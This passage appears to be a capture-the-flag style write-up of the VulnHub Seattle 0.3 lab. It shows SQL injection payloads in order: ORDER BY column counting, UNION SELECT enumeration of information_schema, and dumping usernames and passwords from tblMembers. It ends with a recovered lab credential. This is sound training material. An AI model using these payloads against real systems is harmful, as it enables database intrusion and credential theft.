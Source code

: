 We got that we have 5 columns

```
type=1+ORDER+BY+5--+-
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2009:37:20.png)

```
type=1+ORDER+BY+6--+-
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2009:37:40.png)

So, we can start extracting data from there

```
type=1+UNION+SELECT+1,2,3,4,5--+-
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2009:38:55.png)

So, let's extract

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2009:39:19.png)

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2009:40:21.png)

We get [this](https://www.noobsec.net/sqli-cheatsheet/) cheat sheet to help us

With this query we found the tables of the current database

```
type=1+UNION+SELECT+1,2,table_name,4,5+FROM+information_schema.tables+WHERE+table_schema=database()--+-
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2009:49:06.png)

And here the columns

```
type=1+UNION+SELECT+1,2,column_name,4,5+FROM+information_schema.columns+WHERE+table_schema=database()--+-
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2009:51:25.png)

We found three of them very interesting, `id, username and password`

Knowing the tables and the columns of the seattle database, we can get the username and passwod

```
type=1+UNION+SELECT+1,2,username,4,5+FROM+tblMembers--+-
type=1+UNION+SELECT+1,2,password,4,5+FROM+tblMembers--+-
```

`admin@seattlesounds.net:Assasin1`
